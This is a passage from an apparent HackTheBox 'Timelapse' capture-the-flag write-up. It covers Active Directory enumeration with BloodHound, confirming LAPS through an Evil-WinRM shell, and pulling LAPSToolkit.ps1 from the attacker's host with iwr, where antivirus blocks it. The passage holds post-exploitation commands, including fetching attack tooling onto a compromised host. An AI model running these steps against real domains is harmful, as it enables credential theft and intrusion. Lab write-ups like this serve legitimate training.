 - Found 4 Domain Admins: `TRX`, `payl0ad`, `thecybergeek`, `Administrator`.

**Mark them as high value:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809173109.png)

**Shortest path to Domain Admins:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809173223.png)

**Mark `legacyy` as owned:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809173244.png)

After poking around at the Bloodhound, I found nothing interesting.

Let's take a step back.

In the downloaded Word documents in `Shares` SMB share, we knew that the Active Directory environment has implemented LAPS.

**According to [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps#check-if-activated), we can confirm LAPS is really there or not:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft Services\AdmPwd
    AdmPwdEnabled    REG_DWORD    0x1
```

Yep, the Domain Controller has LAPS.

Armed with above information, we can use [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) to enumerate LAPS.

- **Transfer `LAPSToolkit.ps1`:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:38:42(HKT)]
└> file /opt/LAPSToolkit.ps1          
/opt/LAPSToolkit.ps1: ASCII text
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:38:51(HKT)]
└> python3 -m http.server -d /opt 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> iwr -Uri http://10.10.14.6/LAPSToolkit.ps1 -OutFile LAPSToolkit.ps1
```

- **Import PowerShell functions from `LAPSToolkit.ps1`:**

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Import-Module .\LAPSToolkit.ps1
At C:\Users\legacyy\Desktop\LAPSToolkit.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\Users\legacyy\Desktop\LAPSToolkit.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
